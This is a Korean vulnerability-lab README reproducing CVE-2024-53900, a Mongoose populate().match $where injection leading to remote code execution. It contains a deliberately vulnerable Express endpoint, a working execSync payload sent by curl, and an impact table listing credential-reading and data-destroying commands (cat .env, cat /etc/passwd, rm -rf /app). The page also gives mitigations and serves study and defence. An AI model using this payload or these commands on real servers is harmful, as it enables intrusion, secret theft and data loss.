




# CVE-2024-53900

## Mongoose `populate().match` $where를 이용한 원격 코드 실행

## 개요

| 항목 | 내용 |
|------|------|
| CVE ID | CVE-2024-53900 |
| 취약 컴포넌트 | Mongoose (Node.js용 MongoDB ODM) |
| 취약 버전 | mongoose < 8.8.3 (실습: 8.8.2) |
| 패치 버전 | 8.8.3 / 7.8.3 / 6.13.5 / 5.13.23 |
| 취약점 유형 | NoSQL Injection → Remote Code Execution (RCE) |
| CWE | CWE-89 (Improper Neutralization of Special Elements) |
| CVSS 3.1 | 9.1 (Critical) |
| 공개일 | 2024-12-02 |

---

## 취약점 원리

### 배경
Mongoose의 `populate()`는 문서 간 참조 관계를 자동으로 채워주는 기능이다.
`match` 옵션으로 참조 대상에 필터 조건을 지정할 수 있는데 이 값이 사용자 입력을 그대로 받으면 취약점이 발생한다.

### 공격 흐름

1. 사용자가 배열 형태의 JSON을 전송
   {"filter": [{"$where": "...악성 코드..."}]}

2. Mongoose 내부 assignVals()가 배열 여부를 확인
   Array.isArray(match) === true → sift 라이브러리로 평가

3. sift가 $where 문자열을 new Function()으로 컴파일
   문자열 → JavaScript 함수로 변환

4. Node.js 프로세스에서 그 함수가 실행
   → 임의 코드 실행 (RCE)


### 핵심 코드 (취약 버전 8.8.2)

```javascript
// lib/helpers/populate/assignVals.js
if (Array.isArray(match)) {
    ret = ret.filter(sift(match[0]));  // $where 검증 없이 그대로 실행
}
```

```javascript
// sift 라이브러리 내부
$where: {
    createCustomOperation(value) {
        return new Function('obj', `return ${value}`);
        // 문자열을 함수로 만들어 실행 → 코드 인젝션 발생
    }
}
```

### MongoDB 사전 검사 우회

payload는 삼항 연산자로 감싸져 있다.

```javascript
typeof global != "undefined"
  ? global.process.mainModule.constructor._load("child_process").execSync("명령어")
  : 1
```

- `global`이 없는 MongoDB 서버 단계 → `1` 반환, 에러 없이 통과

데이터베이스 계층의 방어를 우회해 애플리케이션 서버에서 코드가 실행된다.

### 패치 (8.8.3)

패치 커밋: $where 있으면 throw로 실행 자체를 막음


---

## 환경 구성

```
CVE-2024-53900/
├── docker-compose.yml     # mongo + app 두 컨테이너
├── README.md
├── image
└── app/
    ├── Dockerfile         # node:18 기반
    ├── package.json       # mongoose 8.8.2 (취약 버전 고정)
    └── server.js          # 취약 엔드포인트 포함
```

- `mongo` : MongoDB 6
- `app` : Express + Mongoose 8.8.2, 포트 3000

### 취약 코드 (server.js)

```javascript
app.post("/books", async (req, res) => {
  try {
    const book = await Book.findOne().populate({
      path: "author",
      match: req.body.filter,  // 사용자 입력을 검증 없이 match로 사용
    });
    res.json(book);
  } catch (e) {
    res.status(500).json({ error: e.message });
  }
});
```

---

## 재현 절차

### 1. 환경 실행

```bash
docker compose up -d --build
docker compose ps
```




### 2. PoC — 악성 요청 전송

**요청 정보**

| 항목 | 내용 |
|------|------|
| Method | POST |
| URL | http://localhost:3000/books |
| Header | Content-Type: application/json |

**Body (Postman)**

```json
{
  "filter": [
    {
      "$where": "typeof global!=\"undefined\"?global.process.mainModule.constructor._load(\"child_process\").execSync(\"touch /app/test.txt\"):1"
    }
  ]
}
```



**curl**

```bash
curl -s http://localhost:3000/books \
  -H 'Content-Type: application/json' \
  -d '{"filter":[{"$where":"typeof global!=\"undefined\"?global.process.mainModule.constructor._load(\"child_process\").execSync(\"touch /app/test.txt\"):1"}]}'
```


`author`가 채워진 응답이 오면 `populate()`가 실행된 것 → `$where` 코드도 실행됨

### 3. RCE 검증

```bash
docker compose exec app sh
ls -la /app/test.txt
``` 

```
-rw-r--r-- 1 root root 0 Jul 10 12:31 /app/test.txt
```

파일이 생성됨 -> 사용자 입력이 Node.js 프로세스에서 명령으로 실행된 것 -> RCE 성립




## 빠른 재현

```bash
# 1. 클론 및 환경 실행
git clone https://github.com//kr-vulhub.git
cd kr-vulhub/Mongoose/CVE-2024-53900
docker compose up -d --build

# 2. 환경 확인 (vulnerable app listening on :3000 출력되면 준비 완료)
docker compose logs app

# 3. 공격 요청
curl -s http://localhost:3000/books \
  -H 'Content-Type: application/json' \
  -d '{"filter":[{"$where":"typeof global!=\"undefined\"?global.process.mainModule.constructor._load(\"child_process\").execSync(\"touch /app/test.txt\"):1"}]}'

# 4. RCE 검증 (파일 존재하면 성공)
docker compose exec app sh -c "ls -la /app/test.txt"

# 5. 정리
docker compose down -v
```

---

## 영향

| 공격 명령 | 결과 |
|-----------|------|
| `touch /app/pwned` | 임의 파일 생성 |
| `whoami > /app/user.txt` | 실행 권한 확인 (root) |
| `cat /etc/passwd` | 서버 계정 정보 탈취 |
| `cat .env` | DB 비밀번호, API 키 탈취 |
| `rm -rf /app` | 서버 파일 전체 삭제 |

서버가 `root` 권한으로 실행되어 위 명령이 모두 가능하다.

---

## 대응 방안

- Mongoose를 8.9.5 이상으로 업그레이드
- 사용자 입력을 `populate().match`에 직접 전달하지 않기
- 허용된 필드·연산자만 통과시키는 화이트리스트 검증 적용
- `$where` 등 위험 연산자를 애플리케이션 레벨에서 차단

---
